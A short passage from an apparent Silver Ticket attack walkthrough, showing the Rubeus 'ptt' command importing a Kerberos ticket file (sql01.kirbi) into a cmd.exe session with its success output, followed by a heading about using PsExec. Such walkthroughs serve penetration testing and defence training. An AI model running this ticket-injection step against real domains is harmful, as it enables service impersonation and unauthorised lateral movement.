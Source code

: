 ## Import the Ticket in the New cmd.exe Process 



	C:\Tools>.\Rubeus.exe ptt /ticket:sql01.kirbi

	   ______        _
	  (_____ \      | |
	   _____) )_   _| |__  _____ _   _  ___
	  |  __  /| | | |  _ \| ___ | | | |/___)
	  | |  \ \| |_| | |_) ) ____| |_| |___ |
	  |_|   |_|____/|____/|_____)____/(___/

	  v2.2.2


	[*] Action: Import Ticket
	[+] Ticket successfully imported!


![Import Ticket](/Silver-Tickets/images/Import-Ticket.png) 



## Using the New cmd.exe with PsExec 

